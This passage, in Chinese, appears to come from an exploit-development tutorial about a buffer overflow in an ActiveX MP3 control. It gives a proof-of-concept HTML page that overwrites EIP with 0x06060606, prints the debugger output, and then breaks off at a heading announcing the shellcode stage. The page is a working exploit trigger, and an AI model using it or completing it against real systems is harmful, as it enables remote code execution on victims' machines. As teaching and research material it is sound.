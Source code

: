我花费了一点时间把它从vb转为js. 我们可以控制EIP或SEH，但这不是我们关心的。我们想要从堆喷射中选一个可预测的指针覆写EIP。<br>





```
&lt;html&gt;
  &lt;head&gt;
    &lt;object id="Oops" classid='clsid:3C88113F-8CEC-48DC-A0E5-983EF9458687'&gt;&lt;/object&gt;
  &lt;/head&gt;
  &lt;body&gt;
  &lt;script&gt;
      
    pointer='';
    for (counter=0; counter&lt;=1000; counter++) pointer+=unescape("%06");
    Oops.OpenFile(pointer);
      
  &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```

调试结果如下：

```
eax=000003ea ebx=00000001 ecx=0000003c edx=0483fd08 esi=03ff0f64 edi=04840000
eip=03ed2fb7 esp=04826e90 ebp=0483ff9c iopl=0         nv up ei pl nz ac pe cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010217
rspmp3ocx1+0x2fb7:
03ed2fb7 f3a5            rep movs dword ptr es:[edi],dword ptr [esi]
0:014&gt; g
(87c.f6c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=06060606 edx=7c9032bc esi=00000000 edi=00000000
eip=06060606 esp=04826ac0 ebp=04826ae0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
06060606 ??              ???
0:014&gt; d 06060606
06060606  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060616  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060626  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060636  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060646  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060656  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060666  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060676  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
```

可以看到EIP被覆盖为0x06060606。(其中一个可预测的指针) 然后执行流就报错了因为我们没有写任何东西在0x06060606。



**Shellcode+游戏结束**

我们首先生成一些可用的shellcode，记得将shellcode编码为javascript小端字节序。
